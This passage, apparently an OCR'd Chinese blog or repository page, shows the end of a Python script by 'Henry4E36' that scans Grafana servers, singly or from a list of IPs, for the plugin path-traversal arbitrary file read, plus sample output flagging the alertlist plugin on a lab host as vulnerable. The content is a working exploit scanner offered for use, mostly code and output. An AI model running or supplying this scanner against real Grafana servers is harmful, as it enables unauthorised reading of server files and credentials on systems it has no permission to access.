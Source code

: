 ```python
                        print("[" + "-" * 100 + "]")
                else:
                    print(f"[\033[31mx\033[0m]  目标系统: {self.url} 不存在{i}插件！")
                    print("[" + "-"*100 + "]")
            except Exception as e:
                print("[\033[31mX\033[0m]  连接错误！")
                print("[" + "-"*100 + "]")

    def file_url(self):
        with open(self.file, "r") as urls:
            for url in urls:
                url = url.strip()
                if url[:4] != "http":
                    url = "http://" + url
                self.url = url.strip()
                information.target_url(self)



if __name__ == "__main__":
    title()
    parser = ar=argparse.ArgumentParser(description='Grafana 任意文件读取')
    parser.add_argument("-u", "--url", type=str, metavar="url", help="Target url eg:\"http://127.0.0.1\"")
    parser.add_argument("-f", "--file", metavar="file", help="Targets in file  eg:\"ip.txt\"")
    args = parser.parse_args()
    if len(sys.argv) != 3:
        print(
            "[-]  参数错误！\neg1:>>>python3 grafana-read.py -u [url]http://127.0.0.1[/url]\neg2:>>>python3 grafana-read.py -f ip.txt")
    elif args.url:
        information(args).target_url()

    elif args.file:
        information(args).file_url()
```

### 脚本输出

```shell
python test.py -u http://192.168.80.128:3000

                 ___                     __                                 ___                        _      ___   _   _
                / __|  _ _   __ _   / _|  __ _   _ _    __ _     | _ \  ___   __ _   __| |    | __| (_) | |  ___
               | (_ | | '_| / _` | |  _| / _` | | ' \  / _` |    |  / / -_) / _` | / _` |   | _|  | | | | / -_)
               \___| |_|   \__,_| |_|   \__,_| |_||_| \__,_|  |_|_\ \___| \__,_| \__,_| |_|   |_| |_| \___|



                                     Author: Henry4E36

[?[31mx?[0m]  目标系统: http://192.168.80.128:3000 不存在grafana-clock-panel插件！
[----------------------------------------------------------------------------------------------------]
[?[31mx?[0m]  目标系统: http://192.168.80.128:3000 不存在alertGroups插件！
[----------------------------------------------------------------------------------------------------]
?[31m[√] 目标系统: http://192.168.80.128:3000的alertlist插件存在任意文件读取?[0m
```
